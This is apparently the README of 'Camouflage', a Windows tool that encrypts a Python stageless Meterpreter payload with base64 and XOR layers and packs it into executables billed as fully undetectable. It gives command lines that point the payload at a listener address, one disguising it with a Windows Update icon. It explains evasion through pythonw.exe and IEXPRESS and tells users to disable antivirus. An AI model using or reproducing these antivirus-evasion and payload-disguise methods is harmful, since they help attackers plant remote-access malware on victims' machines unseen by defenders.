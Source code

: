 # 𝕮𝖆𝖒𝖔𝖚𝖋𝖑𝖆𝖌𝖊
### ρутнση stageless мєтєяρяєтєя ¢яуρтєя


## Features
- Supports TCP/HTTP/HTTPS python stageless meterpreter.
- Wraps the python meterpreter with an encryption stub.
- Converting the final stub to C code then compiling it to a native executable, or bundling it with an embedded python version in one executable. 
- Produces FUD executables.


## Requirements
- Python3.x
- Windows OS
- MSVC Toolchain (optional)


## Installation

#### This version works on python3 and only supports Windows OS for now.
`python -m pip install -r requirements.txt`

## Examples

#### `python .\camouflage.py -p tcp -H 192.168.140.102:8080 --packer compile -o Final --icon C:\Windows\System32\WindowsUpdateImportant.ico`
#### `python .\camouflage.py -p https -H 192.168.140.102:443 --srw 3 --ua "Meterpreter Test"`


## How it works
#### The script begins by patching "meterpreter.py" with the provided parameters by the user, encrypting the script starts with base64 encoding (first cycle) then xor encrypting with an 8-Byte key then base64 encoding again (second cycle), the result is saved to a stub, the stub then does the opposite to execute the original code, there are two options to pack the script, either by converting it to C and compiling it to a native binary via Nuitka (harder to Reverse Engineer) or bundling the script with an embedable python version using a Windows legacy program called IEXPRESS (more OPSEC) because the scripts gets executed by "pythonw.exe" which is a trusted program by Windows, rather than using flagged methods of bundling (pyinstaller, py2exe, ..etc).
#### At the moment the program only works on Windows because the way it is compiled and bundled, in future releases cross compiling can be added to include Linux support.   

## Note
Add `meterpreter.py` to execlusion list or turn off AV.

## Demo
#### Windows 11 x64
![Demo](resources/demo.gif)
